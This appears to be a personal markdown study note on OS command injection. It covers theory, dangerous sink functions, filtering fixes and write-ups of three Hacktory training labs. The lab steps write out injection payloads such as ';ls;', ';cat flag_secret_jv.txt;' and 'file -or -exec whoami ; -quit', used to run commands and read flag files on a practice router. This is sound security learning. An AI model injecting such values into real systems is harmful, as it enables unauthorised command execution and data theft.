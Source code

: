 # Code and command injections.md
## Theory
### Command Injection
#### Vulnerability:Command injection is a type of vulnerability that enables the adversary to execute arbitrary OS commands on the server through susceptible applications ,These attacks are possible usually because of insufficient input validation.
- How it works? :
+ Let's suppose we have the vuln.com website with the following code:
- `Runtime rt = Runtime.getRuntime();
- `Process proc = rt.exec(new String[] {"sh", "-c", "ping " +req.getParameter("ip")});`
+ he script calls the ping utility that sends requests to an IP address that is passed to the script as an argument. Here's an example of a call for the script with an argument `ip=8.8.8.8`

`vuln.com/ping?ip=8.8.8.8`
The result:

`sh -c ping 8.8.8.8`
+However, if the user passes the 123;whoami value as an argument, the formed command will look like this:

`sh -c ping 123;whoami`
##### How to find it?:
- The results of an injection may not be present in the server response. There are three basic situations:
- The result is in the server response.
- The result is not in the response, but we can tell if the injection was executed using indirect evidence right away.
- The result is not in the response, but we can tell if the injection was executed using indirect evidence after some time.

### Blind injection:
The result of command execution is not always displayed on the page (blind injection). In this case, there are only indirect signs a command was executed (sleep, request to (our) external resource, etc.). One way or another, sleep, ping, and other commands that would take time for their execution, which can be traced.

- Out-of-band : In some cases, we cannot use response delay to see if our command was executed. Thus, you have to make the vulnerable server perform a certain action. For example, make a DNS request with a specific host or initiate a request from the vulnerable

### Search in the source code
- |PHP	|system, shell_exec, exec, proc_open, popen, eval, passthru|
- |NodeJS	|spawn, forc, exec, eval|
- |Java	|ProcessBuilder, Runtime.exec|
- |C#	|ProcessStartInfo,ParameterizedThreadStart,Process.Start,Exec|
## Fixes and prevention
List of characters to be filtered:
`< > & * ‘ | = ? ; [ ] ^ ~ ! . ” % @ / \ : + , '`
#### An example:
- `Runtime rt = Runtime.getRuntime();`
- `Process proc = rt.exec(new String[] {"sh", "-c", "ping " + req.getParameter("ip")});`
#### Bad example:
-`String command="ping "+req.getParameter("ip");`
-`ProcessBuilder b = new ProcessBuilder(command);`
#### Good example:
`ProcessBuilder b = new ProcessBuilder("ping",req.getParameter("ip"));`


## Lab 1:RouterV1
We are going to work with a router configuration web interface. We will find command injection vulnerabilities and get secret information.
- Run the machine
- open the browoser and put the adress http://www.hacktory.lab
- go for the admin pannel
- in the hostane field ping
- The output is ping -c 1 ping
- now in the field we should type ping -c 1 127.0.0.1
- in the hostbname field put ;ls;
- the output will be like bindemo-baseetcflag_secret_jv.txtliblicense-eplv10-.........
- we can see the flag_secret_jv.txt
- now we should use this command ;cat flag_secret_jv.txt;
- we can see in the output the flag // java_rce_attack
- close the machien
## Lab 2:RouterV1 
Нам предстоит исправить уязвимости в веб-интерфейсе конфигурации роутера, которые мы обнаружили ранее.
- Open the machine
- Go to Code editor
- the first thing is checking the Admin.java
- Direclty without thinking twice  we can see that that problem in the
- `Process proc = rt.exec(new String[] {"sh", "-c", "ping -c 1 " + req.getParameter("cmd")});`

why? because we are using sh-c this will open the shell direclty and we are passing the user input direclty into the shell
lets fix this
    `String cmdParam = req.getParameter("cmd");
    // Basic input validation
    if (cmdParam == null || cmdParam.contains(";") || cmdParam.contains("&") || cmdParam.contains("|")) {
        req.setAttribute("output", "Invalid input detected.");
        this.doGet(req, resp);
        return;
    }`

- after this i used the hint to know where the 2 problem 
`processBuilder.command("bash", "-c", "nslookup " + request.getAttribute("cmd"));`
- dont use the bash-c lets use safe argument separation `processBuilder.command("nslookup", (String)request.getAttribute("cmd"));`

- we can use input validation as we did in the admin java its good
- after correcting use the deploy adn the flag will be shown in the output of the console 
//Your flag is: JAVA_RCE_DEFENDER

## Lab 3:FFF:
- Start you machine 
- Go to http://www.hacktory.lab
- try find -help
- the question is Which argument of the find command could be potentially used by an attacker ?
- the answer is -exec
- try to enter file -or -exec whoami ; -quit
- the output is root
- try file -or -exec ls ; -quit.
- we can see the list of the files
- and we can see a file called flag.txt
- we wanna see the content of this i am thinking in the command of cat
- `;cat flag.txt;` i didnt get any result 
- try this command `file -or -exec cat flag.txt ; -quit`
- the flag  ` **java_rce_find_escaper**`
- close your machine
- Good luck from kader
    

